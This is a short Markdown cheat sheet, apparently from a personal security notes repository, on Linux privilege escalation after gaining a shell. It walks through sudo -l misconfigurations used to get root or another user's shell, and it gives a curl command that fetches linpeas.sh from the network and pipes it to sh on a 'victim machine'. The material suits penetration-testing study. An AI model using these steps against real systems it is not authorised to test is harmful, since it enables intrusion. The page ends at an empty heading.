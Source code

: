 ```yaml
---
sort : 7
---
```



# Privilege Escalation

A type of network attack used to gain unauthorized access to systems within a security perimeter.

## Got A Shell ?? 

All we need to do is to become a root.

`Here are the most important attack vectors to perform :`

### 1. Knowing the compromised users permissions
```
$ whoami  

$ id 

$ uname -a
```

```bash
$ sudo -l 

User [Username] may run the following commands on [Machine Name]:
    (root) NOPASSWD: /home/user/personal/stuff/AnyScript.sh

# How to read this ?? 
# the current user `Username` can run the command `/home/user/personal/stuff/AnyScript.sh` as a `root` without password

$ sudo -u root /home/user/personal/stuff/AnyScript.sh


=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


User [Username] may run the following commands on [Machine Name]:
    (Username2) NOPASSWD: /home/Username2/luvit
    
# the current user `Username` can run the command `/home/Username2/luvit` as a `Username2` without password


$ sudo -u Username2 /home/Username2/luvit privesc.lua    # some times the command needs args to work ^^ 


=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


User [Username] may run the following commands on [Machine Name]:
    (Username2 : Username2) NOPASSWD: ALL

# the current user `Username` can run `ANY` command as a `Username2` OR it's group without password


$ sudo -u Username2 /bin/bash

=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

User [Username] may run the following commands on [Machine Name]:
    (ALL) NOPASSWD:/bin/nano /opt/priv


# the current user `Username` can run `/bin/nano /opt/priv` command as `ANY USER` without password

sudo -u Username /bin/nano /opt/priv   # not root ?? 
```


sudo -l

### 1. Privilege Escalation Tools

```bash 
# On Victime Machine 
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh


```



### 1. Credential Exploitation